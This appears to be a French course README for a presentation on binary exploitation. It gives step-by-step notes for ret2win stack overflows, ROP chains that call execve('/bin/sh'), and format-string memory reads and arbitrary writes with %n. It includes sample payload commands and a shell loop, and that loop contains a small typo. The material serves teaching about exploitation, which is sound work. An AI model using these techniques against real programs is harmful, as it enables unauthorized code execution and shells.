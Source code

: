 # IF27
Fichiers et programmes de la présentation de IF27

**Ce document contient les fichiers et programmes pour réaliser les exploitattions vues dans la présentation et le rapport de IF27**

*Installation*
git clone https://github.com/arthubhub/IF27.git ; cd docker ; ./dockerMake.sh



*Aide*

# Ret2win :

Trouver l'offset : 
- gdb ./programme
- disass fonction_vulnerable
- b *[adresse après gets()]
- run < A1A2A3A4 ...
- au breakpoint : info frame -> regarder saved eip et en déduire l'offset
Trouver l'adresse de win
- disass win -> prendre l'adresse de la première instruction
- echo -ne "OFFSET\xdd\xcc\xbb\xaa" | ./programme -> remplace saved eip par 0xaabbccdd

# ROPchain :
- trouver les gadgets : ROPgadget --binary ./programme | grep "pop ..x .*; ret"
- mettre /bin/sh à une adresse connue :
pop ebx ; ret
ebx = 0xffffa004
pop eax ; ret
eax = 0x0068732f
mov dword ptr [ebx], eax ; ret

## Le cas de execve :
- execve(”/bin/sh”,0,0)
- le numéro du syscall doit etre dans eax
- x86_32
    - eax=0xB
    - ebx=@ de “/bin/sh”
    - ecx=0
    - edx=0
- x86_64
    - rax=59
    - rdi=@ de “/bin/sh”
    - rsi=0
    - rdx=0

# Format string 

## Lire partout
```
#!/bin/sh
for i in for i in $(seq 1 2000)
do
   echo "%${i}\$s" | ./vuln_format_string | grep "Result of" | strings >> results
done
```
## Écrire où on veut

Pour finir, la chaine de formatage %n nous permet d’écrire. Elle écrit le nombre de caractères affichés jusque là, mais où?. Elle les écrit dans l’adresse qu’on lui donne, en argument. 
Par exemple : 

- `printf(”54321%n”,&i); //écrit 5 dans i`
- `printf(”ab54321%3$n”,&a,&b,&c); //écrit 7 dans c`

Donc ce qu’on peut faire, c’est envoyer une chaine de formatage comme “a1b2%x%x%x…”, compter le nombre de %x jusqu’à atteindre “a1b2”, puis remplacer ce %x par un %n. On écrit alors une valeur à l’adresse “a1b2”. On peut changer la valeur écrite en ajustant le nombre de caractères imprimés en modifiant un %x → %0Nx, par exemple %0134x. Il ne reste plus qu’à remplacer “a1b2” par l’adresse voulue ( \x78\x56\x34\x12 pour l’adresse 12345678 ).

Des options plus avancées sont “a1b2%Ax%B$n”. Cette chaine imprime 4+A dans l’argument numéro B+1.

